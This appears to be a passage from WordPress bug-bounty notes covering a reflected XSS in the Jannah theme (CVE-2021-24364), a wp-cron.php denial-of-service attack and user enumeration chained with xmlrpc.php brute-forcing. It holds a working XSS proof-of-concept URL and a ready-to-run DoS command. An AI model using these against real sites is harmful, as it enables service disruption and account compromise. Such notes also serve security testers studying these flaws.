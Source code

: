 [CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389)

[Blog Post](https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)

# CVE-2021-24364
The Jannah WordPress theme before 5.4.4 did not properly sanitize the options JSON parameter in its tie_get_user_weather AJAX action before outputting it back in the page, leading to a Reflected Cross-Site Scripting (XSS) vulnerability.

### Detection and Exploit
* Replace <Your_WP-Site-here> to your WP-site
<Your_WP-Site-here>/wp-admin/admin-ajax.php?action=tie_get_user_weather&options=%7B%27location%27%3A%27Cairo%27%2C%27units%27%3A%27C%27%2C%27forecast_days%27%3A%275%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3Ecustom_name%27%3A%27Cairo%27%2C%27animated%27%3A%27true%27%7D
* Wait for the pop-up!

### Reference 
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-24364)

# WP Cornjob DOS
This is another area where you can perform a DOS attack.

### Detection
* visit site.com/wp-cron.php
* You will see a Blank page with 200 HTTP status code

### Exploit
You can use the same tool Doser for exploiting this 
```
python3 doser.py -t 999 -g 'https://site.com/wp-cron.php'
```
### Reference

[GitHub Issue](https://github.com/wpscanteam/wpscan/issues/1299)

[Medium Writeup](https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30)

# WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

### Detection
* visit site.com/wp-json/wp/v2/users/
* You will see json data with user info in response

### Exploit
If you have xmlrpc.php and this User enumeration both presence there. Then you can chain them out by collecting username from wp-json and perform Bruteforce on them via xmlrpc.php. It will surely show some extra effort and increase the impact as well
